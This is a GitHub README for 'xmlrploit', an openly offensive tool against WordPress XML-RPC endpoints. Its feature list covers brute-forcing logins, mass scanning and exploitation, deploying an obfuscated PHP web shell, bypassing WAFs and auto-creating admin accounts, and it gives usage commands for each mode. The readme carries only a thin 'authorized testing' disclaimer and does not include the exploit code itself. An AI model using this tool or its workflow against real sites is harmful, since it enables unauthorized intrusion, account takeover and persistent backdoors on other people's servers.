

**XML-RPC Exploit & Brute Tool for WordPress**

---



> A powerful tool to detect and exploit vulnerable WordPress XML-RPC endpoints, bruteforce logins, and perform mass scanning. Created by **@karranwang**.

---

## Features

- **Exploit XML-RPC** vulnerabilities (`system.listMethods`, `pingback.ping`).
- **Bruteforce** WordPress login via XML-RPC.
- **Mass scanning** and exploitation across many targets.
- **Deploy custom PHP Shell** automatically.
- **Bypass WAF** (Web Application Firewalls) by customizing headers.
- **Auto Admin Creator** after successful bruteforce.
- **Scan-only mode** to only detect active XML-RPC.

---

## Installation

Clone this repository

```bash
$ git clone https://github.com/karranwang/xmlrploit.git
```

```bash
$ cd xmlrploit
```

# Install dependencies

```bash
$ pip install -r requirements.txt
```

**Required Python Modules:**

- `requests`
- `pyfiglet`

Install manually if needed:

```bash
pip install requests pyfiglet
```

---

## Usage

```bash
python xmlrploit.py [options]
```

### Modes

| Mode    | Description |
|---------|-------------|
| exploit | Exploit XML-RPC on a target |
| brute   | Brute-force login via XML-RPC |
| mass    | Mass scan multiple targets |

### Options

| Option          | Description |
|-----------------|-------------|
| -u, --url       | Target URL (http://target.com/xmlrpc.php) |
| -m, --mode      | Mode (exploit, brute, mass) |
| -f, --file      | File containing list of targets or passwords |
| -t, --thread    | Number of threads (default: 5) |
| --deploy-shell  | Deploy obfuscated PHP shell automatically |
| --bypass-waf    | Attempt to bypass WAF protections |
| --method        | XML-RPC method to exploit (`listMethods`, `pingback`) |
| --username      | Username for brute mode |
| --scan-only     | Only scan XML-RPC (no exploitation) |

---

## Examples

### 1. Exploit a Single Target

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m exploit
```

### 2. Bruteforce Login

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m brute -f passwords.txt --username admin
```

### 3. Mass Scan and Exploit

```bash
python xmlrploit.py -m mass -f targets.txt
```

### 4. Scan Only (No Exploit)

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php --scan-only
```

```bash
python xmlrploit.py -m mass -f targets.txt --scan-only
```

### 5. Exploit with Shell Upload and WAF Bypass

```bash
python xmlrploit.py -u http://target.com/xmlrpc.php -m exploit --deploy-shell --bypass-waf
```

---

## Notes

- Tool created for **educational and authorized testing** only.
- Always ensure you have permission to scan or exploit any target.
- Use at your own risk.

---

## License

MIT License

---

## Credits

- Coded by [@karranwang](https://github.com/karranwang)

---

## Support

If you like this project, give it a star! ⭐

```bash
git clone https://github.com/karranwang/xmlrploit.git
```

```bash
cd xmlrploit
```

```bash
python xmlrploit.py
```

